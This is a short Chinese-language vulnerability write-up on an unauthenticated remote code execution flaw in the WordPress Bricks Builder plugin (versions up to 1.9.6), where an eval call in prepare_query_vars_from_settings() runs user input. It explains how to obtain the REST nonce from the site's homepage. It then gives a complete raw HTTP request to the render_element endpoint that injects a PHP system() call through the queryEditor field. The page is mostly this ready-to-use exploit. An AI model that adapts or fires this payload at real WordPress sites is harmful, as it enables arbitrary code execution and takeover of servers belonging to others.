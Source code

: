 ### 漏洞描述：

由于prepare_query_vars_from_settings()中的eval函数执行用户控制的输入，由于权限检查不当，未经身份验证的用户可利用该函数执行任意 PHP 代码。

使用GET方法访问/wordpress/根路径，在返回的HTML文件中查看bricksData参数内包含的wpRestNonce值，得到Nonce后构造数据包发送rce请求。

### 影响版本：‏‍‎‌‏‌‏‌‎‎‌‏‎‏‌‌‎‌‏‌‏‏‌‌‏‍‎‏‏‌‏‌‍​‎‌‏‎‏‎‍‍‏‎‎‏

WordPress Brick Builder <=1.9.6

### Payload：

```
POST /wp-json/bricks/v1/render_element HTTP/1.1
Host: host
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:58.0) Gecko/20100101 Firefox/58.0
Connection: close
Content-Length: 401
Content-Type: application/json
Accept-Encoding: gzip, deflate

{
"postId": "1",
"nonce": " a980a714d9",
"element": {
"name": "container",
"settings": {
"hasLoop": "","query": {"useQueryEditor": "","queryEditor": "system('calc');","objectType": ""}
        }
    }
}
```
